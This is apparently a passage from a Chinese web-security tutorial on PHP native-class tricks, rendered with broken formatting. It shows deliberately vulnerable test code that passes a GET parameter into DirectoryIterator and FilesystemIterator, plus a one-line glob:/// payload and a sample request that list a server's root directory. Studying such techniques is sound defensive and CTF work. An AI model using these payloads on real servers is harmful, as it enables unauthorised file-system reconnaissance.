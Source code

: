     
    
      
    $dir = $_GET [ 'whoami' ];   
    $a = new  DirectoryIterator ( $dir );   
    foreach ( $a  as  $f ){ echo ( $f ->__toString(). '  
    ' ); // 不加__toString()也可,因为echo可以自动调用} ?>  
          
      
      
      
    #payload 一句的形式：  
    $a = new  DirectoryIterator ( "glob:///*" ); foreach ( $a  as  $f ){ echo ( $f ->__toString(). '  
    ' );}  
      
  
---|---  
  
`  
`

`我们输入`/?whoami=glob:///*`第一步目录下的所有文件：`

`![]()`

`网站目录下的所有文件：`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084312.png)`

  * `使用 FilesystemIterator 类`

`测试代码：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7   
    8   
    9   
    10  
    

|

    
    
      
    $dir = $_GET [ 'whoami' ];   
    $a = new  FilesystemIterator ( $dir );   
    foreach ( $a  as  $f ){ echo ( $f ->__toString(). '  
    ' ); // 不加__toString()也可,因为echo可以自动调用} ?>  
          